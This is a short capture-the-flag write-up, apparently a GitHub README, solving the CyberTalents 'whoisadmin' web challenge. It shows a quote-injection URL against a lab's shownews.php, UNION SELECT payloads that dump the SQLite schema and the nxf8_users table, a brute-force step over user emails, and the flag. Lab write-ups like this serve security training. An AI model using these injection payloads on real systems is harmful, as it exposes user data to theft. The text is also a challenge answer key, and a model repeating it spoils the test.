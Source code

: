 # Solve who is admin
### https://cybertalents.com/challenges/web/whoisadmin

#### Try to cause error in php prameter
`http://wcamxwl32pue3e6mk873oykcwzy0j6zqdkgxu639-web.cybertalentslabs.com/shownews.php?id=%27`

![alt text](images/image-2.png)

The error is for `SQLite` 

#### Try to enumerate shema of SQLite DB with sqlite_master
```sql
UNION select * from sqlite_master
```
![alt text](images/image-1.png)

We found 2 tables nxf8_news , nxf8_users

```sql
UNION select * from nxf8_users
```

![alt text](images/image.png)

We found all users 

In description we need to find admin email

#### Review source code
![alt text](images/image-3.png) 

Try to Bruteforce of all users emails 
*All users emails in [emails](emails.txt) file*

flag is `ryan@secret.org`

#### Resources
[sqlite schema](https://www.sqlite.org/schematab.html)

>Find More on ==> github.com/MedhatHassan 